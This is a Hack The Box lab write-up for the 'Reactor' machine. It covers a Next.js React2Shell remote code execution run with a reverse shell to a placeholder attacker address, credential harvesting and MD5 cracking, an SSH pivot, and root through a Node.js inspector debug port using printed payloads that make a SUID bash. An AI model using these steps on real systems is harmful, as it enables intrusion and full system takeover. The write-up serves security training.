

# HTB: Reactor

**Machine Write-up**

## Executive Summary

Reactor is a Linux machine hosting **ReactorWatch**, a Next.js-based "nuclear core monitoring" dashboard exposed on port 3000. The application ran Next.js 15.0.3, which was vulnerable to **CVE-2025-55182 ("React2Shell")** — a maximum-severity (CVSS 10.0) unauthenticated remote code execution flaw in React Server Components' "Flight" deserialization protocol. A public exploit was used to obtain a reverse shell as the low-privilege `node` service account running the application.

From there, an exposed `.env` file and a local SQLite database leaked an MD5-hashed credential pair, one of which cracked instantly against `rockyou.txt` and was reused over SSH to pivot to the `engineer` user. Root was obtained by abusing a second Node.js process — a monitoring "worker" script — that was running as **root** with its V8 Inspector debug port bound to `127.0.0.1:9229`. Tunneling that port and connecting directly to its WebSocket debugger allowed arbitrary JavaScript (and therefore arbitrary shell commands) to be executed inside that root-owned process via the `Runtime.evaluate` debugger method.

---

## Phase 1: Reconnaissance & Enumeration

### Network Scanning

```bash
nmap <Machine_IP> -p 1-10000 -sC -sV -O -T4

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
```

Port 3000 was misidentified by nmap's generic probes, but the fingerprint data returned clear Next.js response headers (`X-Powered-By: Next.js`, `x-nextjs-cache`), confirming a Next.js application rather than a PPP service.

### Web Enumeration & Version Fingerprinting

Browsing to `reactor.htb:3000` served the **ReactorWatch** dashboard — a themed "nuclear core monitoring system" UI reporting core temperature, pressure, coolant flow and reactor power:


*Figure 1 — ReactorWatch dashboard (reactor.htb:3000), "Core Monitoring System v3.2.1".*

The page's client-side JavaScript bundles (`4bd1b696-*.js`, `517-*.js`, `main-app-*.js`, `webpack-*.js`) were pulled from `/_next/static/chunks/` and deobfuscated with `webcrack`:

```bash
npx webcrack 517-d083b552e04dead1.js -o output_dir3
```

The deobfuscated bundle embedded the exact framework version:

```js
(window.next = { version: "15.0.3", appDir: !0 }),
```

Next.js 15.0.3 falls inside the vulnerable range for **CVE-2025-55182**.

---

## Phase 2: Initial Foothold — React2Shell (CVE-2025-55182)

### Root Cause

CVE-2025-55182 ("React2Shell"), disclosed on December 3, 2025 by the React team, is an **unauthenticated remote code execution vulnerability rooted in unsafe deserialization** within React Server Components' **Flight protocol** — the serialization format RSC uses to ship data and Server Function calls between the Next.js server and client. When the server deserializes a crafted `multipart/form-data` request (specifically while resolving outlined/referenced models via `getOutlinedModel`), it trusts attacker-supplied object structure without adequate validation. That unsafe deserialization path lets an attacker's input corrupt object prototypes used later in the process, and this prototype pollution serves as the mechanism that escalates the deserialization flaw into full code execution — ultimately reaching a Node.js primitive such as `child_process.spawnSync`, run with the privileges of the Node process handling the request. The flaw carries a maximum CVSS score of 10.0 and affects Next.js 15.0.0 up to 15.0.4 (along with large ranges of the 14.3.x canary, 15.1–15.5, and 16.x lines), squarely covering the 15.0.3 build identified on Reactor. No authentication, session, or user interaction is required — a single crafted POST request is enough.

### Exploitation

A public React2Shell exploit script was used to deliver a reverse shell payload to the vulnerable endpoint:

```bash
nc -lvnp 4444

node react2shell.js http://reactor.htb:3000 shell <Attacker_IP> <Attacker_PORT>

═══════════════════════════════════════════
  React2Shell - CVE-2025-55182 Exploit
═══════════════════════════════════════════
[*] Target: http://reactor.htb:3000
[*] Payload: reverse shell to <Attacker_IP>:<Attacker_PORT>
[+] Request sent successfully
```

The request triggered the Flight-protocol deserialization bug inside the running `next-server` process, and a connection was returned as the application's service account:

```bash
node@reactor:/opt/reactor-app$ whoami
node
```

---

## Phase 3: Credential Harvesting & Lateral Movement

### Application Secrets

The application directory at `/opt/reactor-app` exposed its configuration and local database to the `node` user:

```bash
node@reactor:/opt/reactor-app$ cat .env
DB_PATH=/opt/reactor-app/reactor.db
DB_TYPE=sqlite3
SENSOR_API_KEY=rw_sk_7f8a9b2c3d4e5f6g7h8i9j0k
ALERT_WEBHOOK=https://alerts.internal.reactor.htb/webhook
NODE_ENV=production
```

The referenced SQLite database held a `users` table with two accounts, their passwords stored as bare, unsalted **MD5** hashes (identifiable by their 32-character hexadecimal length and confirmed by the hash mode needed to crack them):

```bash
node@reactor:/opt/reactor-app$ sqlite3 -header -column reactor.db "SELECT * FROM users;"
id  username  password_hash                     role           email
--  --------  --------------------------------  -------------  --------------------
1   admin     a203b22191d744a4e70ada5c101b17b8  administrator  admin@reactor.htb
2   engineer  39d97110eafe2a9a68639812cd271e8e  operator       engineer@reactor.htb
```

Storing credentials as unsalted MD5 is itself a weakness independent of the RCE chain — MD5 has no built-in salting and is fast enough to brute-force at billions of hashes per second on commodity hardware, which is exactly what made the next step trivial.

### Cracking & Pivoting

The `engineer` hash was cracked in under two seconds against `rockyou.txt`:

```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
# -m 0 = raw MD5

39d97110eafe2a9a68639812cd271e8e:reactor1

Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

The recovered credentials (`engineer` : `reactor1`) were valid over SSH:

```bash
ssh engineer@reactor.htb
...
    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7
engineer@reactor:~$ cat /home/engineer/user.txt
<USER_FLAG>
```

---

## Phase 4: Privilege Escalation — Node.js Inspector (`--inspect`) Abuse

### Discovering a Root-Owned Debug Port

Listing listening sockets as `engineer` revealed a second Node process bound only to loopback on the well-known V8 Inspector port:

```bash
engineer@reactor:~$ ss -tulnp
tcp   LISTEN  0  511   127.0.0.1:9229   0.0.0.0:*
tcp   LISTEN  0  511           *:3000           *:*
```

A process listing confirmed the owner and target script:

```bash
ps aux | grep node
root   1410  ...  /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
node   1408  ...  next-server (v15.0.3)
```

`/opt/uptime-monitor/worker.js` was owned by `root` and not readable by `engineer`, but documented (per the service's own setup) to run with root privileges as part of the host's uptime-monitoring tooling. Querying the Inspector's HTTP metadata endpoint confirmed the debugger was live and attached to that exact script:

```bash
curl -s http://127.0.0.1:9229/json
[ {
  "title": "/opt/uptime-monitor/worker.js",
  "type": "node",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/ac06977c-5149-45ff-944d-bbb0448b0b9a"
} ]
```

The Node.js Inspector protocol provides **no authentication beyond network reachability** — anything that can open the WebSocket can instruct the debugged process to execute arbitrary JavaScript via the `Runtime.evaluate` Chrome DevTools Protocol method. Since the port was bound to loopback only, it was reached by setting up a local SSH port forward over the existing `engineer` session and connecting to `127.0.0.1:9229` from the attacking host.

### Exploiting the Debugger for RCE

A small script connected to the forwarded debugger WebSocket and tried three different Node.js primitives for spawning a process, falling back automatically if one failed (e.g. due to `require` being restricted in that execution context). Each payload string below is sent as the `expression` of a `Runtime.evaluate` call over the debugger WebSocket; on success, a SUID-root copy of `bash` is dropped at `/tmp/rootbash`:

Relevant payloads (simplified):

```javascript
// 1) Classic mainModule.require
process.mainModule.require('child_process').execSync('cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash')

// 2) require with the node: scheme prefix
require('node:child_process').execSync('cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash')

// 3) process.binding — does not depend on require at all
process.binding('spawn_sync').spawn({
  file: '/bin/sh',
  args: ['sh', '-c', 'cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash'],
  stdio: [{ type: 'fd', fd: 0 }, { type: 'fd', fd: 1 }, { type: 'fd', fd: 2 }]
}).status
```

The surrounding driver script (WebSocket connection, sending each payload as a `Runtime.evaluate` request, and iterating to the next one on failure) is omitted here for brevity — the three expressions above are the actual exploitation primitives.

The first payload succeeded immediately:

```bash
node pwn.js
Connecting to: ws://127.0.0.1:9229/ac06977c-5149-45ff-944d-bbb0448b0b9a
Connected! Trying payload 1...
[+] Payload 1 SUCCESS: {"type":"object","value":{}}
```

Because `worker.js` runs as root, the `child_process.execSync` call executed as root, dropping a SUID-root `bash` copy. Executing it with the `-p` flag (to preserve the elevated effective UID) gave a root shell:

```bash
engineer@reactor:/opt/uptime-monitor$ /tmp/rootbash -p
rootbash-5.2# cat /root/root.txt
<ROOT_FLAG>
```

---

## Techniques Summary

| Technique | Description | Impact |
|---|---|---|
| Client Bundle Deobfuscation | Deobfuscated minified Next.js JS chunks with `webcrack` to extract the exact framework version embedded at build time | Confirmed Next.js 15.0.3, in-scope for CVE-2025-55182 |
| React2Shell — RSC Flight Deserialization (CVE-2025-55182) | Unauthenticated prototype-pollution bug in React Server Components' Flight protocol deserialization, reachable via a single crafted POST request | Pre-auth remote code execution as the `node` service account |
| Exposed `.env` / SQLite Credential Store | Application config and local SQLite DB were world-readable to the compromised service account, exposing unsalted MD5 password hashes | Credential disclosure, enabling offline cracking |
| MD5 Hash Cracking (hashcat `-m 0` + rockyou) | Unsalted MD5 hash cracked in seconds against a common wordlist due to a weak dictionary password | Valid SSH credentials for the `engineer` account |
| Node.js `--inspect` Debugger Abuse | A root-owned Node process exposed its unauthenticated V8 Inspector WebSocket on loopback; `Runtime.evaluate` was used to run arbitrary code in that process's context | Full privilege escalation to root via a SUID-copied `bash` |
